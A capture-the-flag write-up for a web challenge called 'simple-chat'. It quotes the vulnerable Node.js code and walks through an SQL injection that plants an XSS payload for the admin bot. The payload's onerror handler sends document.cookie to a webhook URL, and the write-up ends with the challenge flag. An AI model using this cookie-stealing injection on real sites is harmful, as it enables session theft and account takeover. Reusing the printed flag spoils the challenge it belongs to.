


# simple-chat

## Category: Web Exploitation 🕸️


## Description: 
>Simple web application to chat with your friends! Sometimes it does funny things and it's ok like that

## Walkthrough
Analyse code to get kekw's credentials (db.js), then login:

```javascript
//snippet from db.js
INSERT INTO users(username,password) VALUES 
                        ('admin','${ADMIN_PASSWORD}'),
                        ('Val','${crypto.randomBytes(16).toString("hex")}'),
                        ('augusto','${crypto.randomBytes(16).toString("hex")}'),
                        ('CubikMan47','${crypto.randomBytes(16).toString("hex")}'),
                        ('LolLo','${crypto.randomBytes(16).toString("hex")}'),
                        ('Hiipso','${crypto.randomBytes(16).toString("hex")}'),
                        ('FTW','${crypto.randomBytes(16).toString("hex")}'),
                        ('kekw','kekw');
```



Analyse weaknesses in this code, find out that anyone can send chat to any user easily if the user is set to kekw (no sanitization).

>"The code validates the sender field value but doesn't verify that your authenticated session matches that sender. So any logged-in user can set sender: 'kekw' and bypass the restrictions.
>
>This allows the SQL injection attack to work because kekw is a trusted sender that can message anyone, including injecting malicious payloads that will be seen by the admin."

```javascript
//snippet from app.js
app.post('/api/v1/insertChat',async (req,res) => {
  const sender = req.body.sender;
  const receiver = req.body.receiver;
  var message = req.body.message;

  if(!FRIENDS.includes(sender) && sender !== 'admin' && sender !== 'kekw'){
    res.json({'status':"you can't write messages on behalf of other people."})
    return
  }

  if(!FRIENDS.includes(receiver) && receiver !== 'admin' && receiver !== 'kekw') {
    res.json({'status':"you can't write to nobody"})
    return;
  }

  //no XSS
  message = message.replaceAll('<','&lt;');
  message = message.replaceAll('>','&gt;');

  const result = await db.insertChat(sender,receiver,message);
  if(result != 0){
    res.json({'status':"Couldn't insert the chat."});
    return;
  }
  const response = {'status':'Success'};
  res.json(response);
})
```

## Solution

Inject the SQL injection payload which able to bypasses the XSS filter (<> change to chr(60) and chr(61)) using Burp Repeater, make sure to replace the webhook link with your url.

```bash
POST /api/v1/insertChat
Content-Type: application/json

{
    "sender": "kekw",
    "receiver": "augusto", 
    "message": "aaa'); INSERT INTO chat(sender,receiver,message) VALUES ('FTW','admin', CHR(60) || 'img src=x onerror=fetch(`https://webhook.site/YOUR-WEBHOOK-ID?cookie=`+document.cookie) /' || CHR(62));--"
}
```

After that, trigger the admin bot by sending the request to:

```bash
GET /ping?friend=FTW
```

Then, wait and check your webhook for the flag



## 🏳️Flag
>corn{d0ubl3_uns4n1t1z4tion_d4mnnnn_fb13bde70abb0787}